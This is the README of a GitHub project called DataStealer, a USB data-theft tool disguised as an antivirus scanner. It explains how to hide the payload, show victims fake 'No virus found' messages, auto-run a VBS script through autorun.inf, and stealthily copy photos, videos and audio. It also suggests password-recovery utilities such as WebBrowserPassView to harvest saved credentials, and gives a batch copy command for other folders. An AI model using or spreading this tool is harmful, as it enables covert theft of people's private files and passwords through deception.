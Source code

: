 # DataStealer

## Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft**
>set stealfiles=**true / false** [DEFAULT TRUE]

**Enable or disable Nirsoft software**
>set nirsoft=**true / false** [DEFAULT FALSE]
>
>set soft=**[names of Nirsoft software files]** [DEFAULT EMPTY]

**NirSoft** web site provides a unique collection of **small and useful freeware utilities**, all of them developed by **Nir Sofer**. Go to **[nirsoft.net](www.nirsoft.net)**, download software and put in "data/soft/" folder. Later add names in value with spaces.

***Example:***
>set soft=**SkypeLogView WebBrowserPassView ...**

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

***Like this:***
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.
